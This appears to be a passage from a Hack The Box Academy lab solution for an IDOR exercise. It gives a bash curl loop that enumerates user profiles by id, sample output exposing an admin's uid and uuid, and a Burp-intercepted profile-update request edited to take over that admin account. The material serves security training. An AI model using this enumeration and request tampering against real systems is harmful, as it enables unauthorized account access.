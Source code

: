 ```bash
#!/bin/bash

for uid in {1..10}; do
	curl -s "http://STMIP:STMPO/profile/api.php/profile/$uid"; echo
done
```

Students can use `grep` to filter for word "admin" after piping the results of the script:

Code: shell

```shell
bash script.sh | grep "admin" | jq .
```

```
┌─[us-academy-1]─[10.10.14.9]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ bash script.sh | grep "admin" | jq .

{
  "uid": "10",
  "uuid": "bfd92386a1b48076792e68b596846499",
  "role": "staff_admin",
  "full_name": "admin",
  "email": "admin@employees.htb",
  "about": "Never gonna give you up, Never gonna let you down"
}
```

Now that the students have attained the `uid` and `uuid` of an admin account, they need to go to the web root page of the spawned target machine, click on the "Edit Profile" button, then click on the "Update profile" button within the "Edit Profile" page while having Burp Suite intercepting requests:

![[HTB Solutions/CBBH/z. images/7911e51e8f9d3829801625025ded7e57_MD5.jpg]]

Subsequently, students need to edit the sent information about the user making it match that of the "admin" account attained earlier, however, the email is changed to `flag@idor.htb` instead and "1" in the endpoint is changed to 10 and at last send the modified intercepted request:

Code: json

```json
{
  "uid": "10",
  "uuid": "bfd92386a1b48076792e68b596846499",
  "role": "staff_admin",
  "full_name": "admin",
  "email": "flag@idor.htb",
  "about": "Never gonna give you up, Never gonna let you down"
}
```

![[HTB Solutions/CBBH/z. images/8450de4507d19ac39c913a522c9c05f6_MD5.jpg]]
